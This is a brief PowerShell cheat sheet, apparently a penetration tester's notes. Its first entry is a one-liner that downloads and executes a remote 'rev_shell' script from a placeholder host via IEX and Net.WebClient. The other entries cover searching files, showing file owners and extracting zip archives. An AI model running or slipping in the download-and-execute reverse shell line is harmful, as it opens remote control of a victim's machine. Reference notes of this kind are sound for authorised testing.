 # Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -force -Path "C:\Path\To\Search" -Recurse -Filter "filename*"

Show owners of files and dirs

	cmd.exe /c "dir /q"
	get-acl -Path <path_to_file_or_dir> | select *

Extract zip file

	Expand-Archive -Path "C:\path\to\your\file.zip" -DestinationPath "C:\path\to\extract\folder"